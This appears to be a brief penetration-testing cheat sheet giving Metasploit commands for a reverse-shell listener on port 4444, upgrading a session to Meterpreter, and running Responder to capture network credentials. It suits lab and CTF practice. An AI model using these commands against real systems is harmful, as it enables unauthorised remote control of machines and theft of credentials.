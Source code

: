 ## Reverse listener
```sh
use exploit/multi/handler // Reverse SHELL
set LHOST IP
set LPORT 4444
run
```

## Get meterpreter
```sh
use exploit/multi/handler // Reverse SHELL
set LHOST IP
set LPORT 4444
run

^Z

use post/multi/manage/shell_to_meterpreter
set SESSION 1
run

// Load session
sessions -i 1
```


## Responder
`sudo responder -I tun0`    


